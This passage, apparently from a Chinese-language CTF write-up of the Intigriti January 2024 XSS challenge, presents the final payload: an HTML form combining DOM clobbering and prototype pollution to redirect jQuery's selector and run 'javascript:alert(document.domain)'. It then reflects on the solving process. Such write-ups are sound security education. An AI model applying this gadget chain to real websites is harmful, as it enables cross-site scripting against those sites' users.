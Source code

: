 先附上最後的 payload：

``` html
<img name=documentElement>
<form id="search">
    <input name="__proto__.owner.avatar_url" value="javascript:alert(document.domain)">
    <input name="__proto__.CLASS.a" value="1">
    <input name="__proto__.TAG.a" value="1">
    <input name="__proto__.dir" value="parentNode">
    <input name="__proto__.selector" value="img.loading">
</form>
```

其實最後一部分 addCombinator 那邊有點像是一半用猜的，一半是真的知道，大概就是某一個部分會用 `dir` 來找匹配的元素，設定成 parentNode 之後就會一直往上找，然後就會配對到整個 HTML 的元素，因此就會幫每一個 element 都加上 src，裡面當然也包含了 iframe。

但每一個函式的細節我已經忘記了，因為真的有點複雜，如果有興趣知道的話，可以直接去看原作者的 writeup（底下會附上連結）。

## 後記

我很喜歡這道題目那種循序漸進的感覺，從一開始找到非預期解以為很簡單，到後來找到第一個 cache 的地方以為解開了，卻回頭發現 axios 的 prototype pollution 沒辦法搭配使用，接著找到第二個 `compiled.seletor` 也以為結束了，才發現其實還沒。

要一直再往下深追，追到 addCombinator，才能確定這一題是真的可以解開，能在一道題目裡面情緒起伏這麼多次，代表這個題目設計的很好。另一個我很喜歡的點是這是一道逼迫你 code review 的題目，沒看 code 的話是絕對解不開的。我很喜歡 code review，因此也很喜歡這個題目。

很佩服作者能夠繼續往深處探索，找到這個非常有趣的答案，結合了 DOM clobbering 跟 prototype pollution，修改了 jQuery selector 的指向，出了一題這麼好玩的題目！

再次推薦作者本人的 writeup，跟我經歷了差不多的過程：[Intigriti January 2024 - XSS Challenge](https://mizu.re/post/intigriti-january-2024-xss-challenge)

除此之外，@joaxcar 找到的另外一個非預期解也很有趣，有興趣的可以看看：[Hunting for Prototype Pollution gadgets in jQuery (intigriti 0124 challenge)](https://joaxcar.com/blog/2024/01/26/hunting-for-prototype-pollution-gadgets-in-jquery-intigriti-0124-challenge/)

若是對最一開始的題目有興趣，也可以參考這邊：https://bugology.intigriti.io/intigriti-monthly-challenges/0124

